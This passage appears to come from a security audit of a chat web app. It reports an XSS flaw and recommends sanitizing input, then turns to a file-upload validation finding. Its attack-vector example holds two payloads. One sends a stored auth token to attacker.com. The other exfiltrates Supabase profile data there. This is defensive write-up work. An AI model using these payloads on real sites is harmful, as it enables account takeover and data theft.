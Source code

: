 **Attack Vector:**
A malicious user could send messages containing:
```javascript
<script>
  // Steal auth tokens
  fetch('https://attacker.com/steal', {
    method: 'POST',
    body: JSON.stringify({
      token: localStorage.getItem('friendle_user')
    })
  });
</script>

<img src=x onerror="
  // Access sensitive data
  supabase.from('profiles').select('*').then(d =>
    fetch('https://attacker.com/data', {method: 'POST', body: JSON.stringify(d)})
  )
">
```

**Recommendation:**
1. **Sanitize all user input** before rendering:
```javascript
function sanitizeHTML(str) {
    const div = document.createElement('div');
    div.textContent = str;
    return div.innerHTML;
}

// Then use:
messageDiv.innerHTML = `
    <div>
        ${sanitizeHTML(content)}  // ✅ SAFE
    </div>
`;
```

2. **Or use textContent instead of innerHTML:**
```javascript
const contentDiv = document.createElement('div');
contentDiv.textContent = message.content;  // ✅ SAFE - auto-escapes
```

---

### 🟡 **MEDIUM: Limited File Upload Validation**
**Severity:** 🟡 **MEDIUM**
**Location:** `index.html:3285-3300`

**Current Validation:**
```javascript
// ✅ Type validation (basic)
if (!file.type.startsWith('image/')) {
    return showNotification('Please select an image file', 'error');
}

// ✅ Size validation (5MB limit)
if (file.size > 5 * 1024 * 1024) {
    return showNotification('Image must be less than 5MB', 'error');
}
```
